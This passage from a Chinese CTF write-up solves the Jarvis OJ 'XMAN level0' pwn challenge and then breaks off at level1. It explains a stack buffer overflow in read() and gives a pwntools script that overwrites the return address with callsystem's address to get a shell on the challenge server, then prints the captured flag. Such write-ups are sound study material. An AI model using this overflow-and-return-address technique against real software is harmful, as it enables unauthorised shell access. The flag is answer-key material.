    

* #### [XMAN]level0

  64位文件

  ![12](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/12.png)

  在read处溢出，调用callsystem

  buf大小为0x80，填充buf，覆盖rbp，改vulnerable_function的返回地址

  ```python
  from pwn import *
  r = remote('pwn2.jarvisoj.com', 9881)
  call = p64(0x400596)
  payload = 'a'*0x88 + call
  r.sendline(payload)
  r.interactive()
  ```

  ![13](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/13.png)

  `CTF{713ca3944e92180e0ef03171981dcd41}`

  

* #### [XMAN]level1

  ![14](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/14.png)
